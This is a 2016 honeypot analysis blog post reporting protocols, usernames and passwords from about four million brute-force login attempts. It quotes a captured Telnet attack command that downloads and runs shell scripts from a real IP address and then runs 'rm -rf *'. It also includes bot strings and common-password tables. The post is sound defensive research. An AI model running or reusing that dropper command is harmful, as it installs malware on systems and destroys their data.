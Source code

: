 ```yaml
---
title: "Initial analysis of four million login attempts"
authors: ["Johnny Vestergaard"]
date: "2016-09-09"
categories: 
  - "analysis"
tags: 
  - "analysis"
  - "heralding"
  - "honeypot"
---
```

{{<figure src="images/banner.png" alt="Banner" width="50%">}}

**Introduction**

This blog post is a follow up to an [earlier article](https://honeynet.org/node/1321), where I set out to conceive a system that could deliver the data needs to answer 5 specific questions.

**The setup**

To provide the data needed for this analysis, my setup consisted of 4 VPS situated respectively at Amazon EC2, Azure, MeeBox and a Danish ISP end-user connection. Even though the same 4 VPS were used throughout the data collection, 6 different IP addresses were used for the honeypots - the reason for this was that one of the honeypots had a dynamically assigned IP address. As mentioned in an [earlier article](https://honeynet.org/node/1321) all honeypots were running Heralding. The technical setup was automated with ansible.

**Time period and initial data**

A subset of all collected data was selected for analysis, the subset covered the period 24. may 2016 to 24. august 2016. In this period there were 4,369,149 login attempts. For each login attempt the following data was available:

timestamp, session\_id, auth\_id, protocol, source\_ip, source\_port, destination\_ip, destination\_port, username, password.

**Which protocols does my adversary try to brute-force?**

Since Heralding only supports 6 protocols (8 if you include ssl wrapped http and pop3), the possibility space is limited to the supported protocols. Furthermore the HTTP capability only supports basic authentication and the pop3 and smtp implementations also only supports a limited subset of the authentication mechanisms normally available for said protocols.

As expected the two most targeted protocols was SSH and Telnet, these two protocols combined saw around 93% of all brute force activity. More surprisingly it was found that SMTP and POP3 only saw around 7% of all activity, I expected the numbers for email protocols would be higher, but maybe SMTP relays sells too cheap to be worth the hassle?

<table><caption>Attacks per protocol</caption><tbody><tr><th>Protocol</th><th>Attempts</th><th>Percentage</th></tr><tr><td>SSH</td><td>2717874</td><td>62%</td></tr><tr><td>Telnet</td><td>1353050</td><td>31%</td></tr><tr><td>SMTP</td><td>196601</td><td>5%</td></tr><tr><td>POP3</td><td>83420</td><td>2%</td></tr><tr><td>HTTP</td><td>17990</td><td>&lt;1%</td></tr><tr><td>FTP</td><td>194</td><td>&lt;1%</td></tr><tr><td>HTTPS</td><td>20</td><td>&lt;1%</td></tr><tr><td>POP3S</td><td>0</td><td>0</td></tr></tbody></table>

**Which username and password did he use?**

A total of 11685 usernames and 128001 was collected during the period. Not surprisingly the username root comes in at a first place with 2955040 login attempts. More surprising the second most attempted password was _/bin/busybox MIRAI_, this is most definitely not an password attempt - but looks more like trying to execute some known malware. Never the less this was attempted 106969 times, it would be interesting to look at the timing of these - maybe it can be correlated with OSINT on this specific malware. Update: For further information in regards to MIRAI, check this [article](http://blog.malwaremustdie.org/2016/08/mmd-0056-2016-linuxmirai-just.html?m=1) by [MalwareMustDie](http://malwaremustdie.org).

<table><caption>Top 5 username</caption><tbody><tr><th>Username</th><th>Attempts</th></tr><tr><td>root</td><td>2955040</td></tr><tr><td>admin</td><td>300637</td></tr><tr><td>shell</td><td>147641</td></tr><tr><td>support</td><td>114015</td></tr><tr><td>sh</td><td>107741</td></tr></tbody></table>

<table><caption>Top 5 passwords</caption><tbody><tr><th>Password</th><th>Attempts</th></tr><tr><td>enable</td><td>107361</td></tr><tr><td>/bin/busybox MIRAI</td><td>106969</td></tr><tr><td>12345</td><td>105879</td></tr><tr><td>admin</td><td>101248</td></tr><tr><td>1234</td><td>89741</td></tr></tbody></table>

A curated list of all attempted passwords can be found [here](https://raw.githubusercontent.com/johnnykv/various/master/stripped_passwords.txt) and a list of usernames [here](https://raw.githubusercontent.com/johnnykv/various/master/stripped_usernames.txt).

**Future work**

Still 3 of the original questions need to be answered, the data is at hand - and will result in another blog post when I find the time. For the record, the remaining questions are:

- At which speed did he brute-force?
- From where did he proxy from?
- What time of day did he brute-force?

Also it would be interesting to do an analysis of username and password combinations.

One thing i especially noted, is that some of telnet login attempts is not normal bruteforce activity. Some of it looks to be raw shell exploitations attempts:

`cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://104.207.135.146/bins.sh; chmod 777 bins.sh; sh bins.sh; tftp 104.207.135.146 -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; tftp -r tftp2.sh -g 104.207.135.146; chmod 777 tftp2.sh; sh tftp2.sh; ftpget -v -u anonymous -p anonymous -P 21 104.207.135.146 ftp1.sh ftp1.sh; sh ftp1.sh; rm -rf bins.sh tftp1.sh tftp2.sh ftp1.sh; rm -rf *`

Others looks to be some kind of malfunctional bot:

`Failed opening raw socket.Failed setting raw headers mode.all,synrstfinackpshInvalid flag "%s"PONG!GETLOCALIPMy IP: %sSCANNERSCANNER ON | OFFOFFSCANNER STOPPED!ONSCANNER STARTED!HOLDJUNKUDPTCPKILLATTKLOLNOGTFO8`

And now it gets plain old weird, this entry looks like logs from another honeypot: `Failed telnet attempt - 2.180.25.253:root:toor Failed telnet attempt - 120.36.60.61:admin:toor`

Want to do your own analysis or crazy visualizations? [Contact me](mailto:jkv@unixcluster.dk), and I will provide you with the raw data (IP addresses will be sanitized). The only condition, is that your analysis must be made public.

 

Regards,

Johnny Vestergaard

[LinkedIN](https://www.linkedin.com/in/johnnykv)

[Mail](mailto:jkv@unixcluster.dk)
